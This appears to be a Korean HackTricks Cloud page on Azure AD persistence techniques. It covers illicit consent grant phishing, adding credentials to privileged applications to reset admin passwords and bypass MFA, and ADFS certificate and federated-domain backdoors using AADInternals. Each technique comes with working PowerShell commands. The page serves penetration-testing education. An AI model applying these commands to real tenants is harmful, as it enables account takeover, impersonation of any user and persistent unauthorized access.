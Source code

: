 # Az - Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Illicit Consent Grant

기본적으로, 모든 사용자는 Azure AD에 애플리케이션을 등록할 수 있습니다. 따라서 관리자의 동의가 필요한 높은 영향력의 권한을 가진 애플리케이션(대상 테넌트 전용)을 등록할 수 있습니다(관리자라면 승인할 수 있음) - 예를 들어 사용자를 대신하여 메일을 보내거나 역할 관리를 하는 등의 작업입니다. 이는 성공할 경우 매우 **결실을 맺을** 수 있는 **피싱 공격을 실행**할 수 있게 해줍니다.

게다가, 사용자가 해당 애플리케이션을 수락하여 접근을 유지할 수도 있습니다.

### Applications and Service Principals

애플리케이션 관리자, GA 또는 microsoft.directory/applications/credentials/update 권한이 있는 사용자 정의 역할의 권한으로, 기존 애플리케이션에 자격 증명(비밀 또는 인증서)을 추가할 수 있습니다.

**높은 권한을 가진 애플리케이션을 타겟팅**하거나 **높은 권한을 가진 새로운 애플리케이션을 추가**하는 것이 가능합니다.

애플리케이션에 추가할 흥미로운 역할은 **특권 인증 관리자 역할**로, 이는 전역 관리자의 **비밀번호를 재설정**할 수 있게 해줍니다.

이 기술은 또한 **MFA를 우회**할 수 있게 해줍니다.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* 인증서 기반 인증을 위한

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federation - Token Signing Certificate

**DA 권한**으로 온프레미스 AD에서 **새로운 Token signing** 및 **Token Decrypt certificates**를 생성하고 가져올 수 있습니다. 이 인증서는 매우 긴 유효 기간을 가집니다. 이를 통해 우리가 아는 ImuutableID를 가진 **모든 사용자로 로그인**할 수 있습니다.

**ADFS 서버에서 DA로** 아래 명령어를 실행하여 새로운 인증서를 생성하고 (기본 비밀번호 'AADInternals'), 이를 ADFS에 추가하고, 자동 롤오버를 비활성화한 후 서비스를 재시작합니다:
```powershell
New-AADIntADFSSelfSignedCertificates
```
그런 다음 Azure AD로 인증서 정보를 업데이트합니다:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federation - Trusted Domain

GA 권한이 있는 테넌트에서 **새 도메인 추가** (검증되어야 함), 인증 유형을 Federated로 구성하고 도메인을 **특정 인증서** (아래 명령의 any.sts) 및 발급자에 대해 **신뢰하도록 구성**할 수 있습니다:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## References

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
